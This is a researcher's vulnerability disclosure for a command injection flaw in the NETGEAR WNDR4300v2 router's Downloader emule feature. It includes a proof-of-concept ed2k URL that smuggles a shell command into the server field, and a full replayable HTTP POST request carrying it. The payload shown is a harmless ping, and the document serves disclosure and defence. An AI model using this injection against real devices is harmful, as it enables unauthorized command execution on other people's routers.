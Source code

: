 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .

Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:


Vulnerability location:
In NETGEAR Downloader (BETA), when using emule download, the ip and port parameters are not filtered, resulting in remote command injection.

First you have to make sure that USB is plugged into the router.

Then you need to turn on wireshark to monitor WLAN traffic.

Finally, you can verify the vulnerability by simply capturing, modifying, and replaying the packet through BurpSuite.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843935009.png)


The location of the vulnerability in the code:

Because IP and port parameters have a command injection vulnerability.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563779263843.png)


Poc:

ed2k://|server|192.168.195.132\';ping 192.168.1.8;echo'|8000


Grab this package in BurpSuite and make the following changes:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843834060.png)

Can be verified by wireshark packet capture:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563778026290.png)


HTTP Request:

POST /apply.cgi?/GREEN_emule_basic.htm%20timestamp=778486986003 HTTP/1.1

Host: 192.168.1.1

Content-Length: 358

Cache-Control: max-age=0

Authorization: Basic YWRtaW46cGFzc3dvcmQ=

Origin: http://192.168.1.1

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3

Referer: http://192.168.1.1/GREEN_emule_basic.htm

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9


Cookie:
auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI1OTczIiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.37588a09eba998aae243f26431b404b0c8922f019cba11ea126ab8cdecbd470c

Connection: close


submit_flag=add_download_item&download_type=emule&save_usb_path=&green_download_open_flag=&enable_green_download=on&download_type_1=emule&download_url=ed2k%3A%2F%2F%7Cserver%7C192.168.195.132%5C%27%3Bping+192.168.1.8%3Becho%27%7C8000&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2

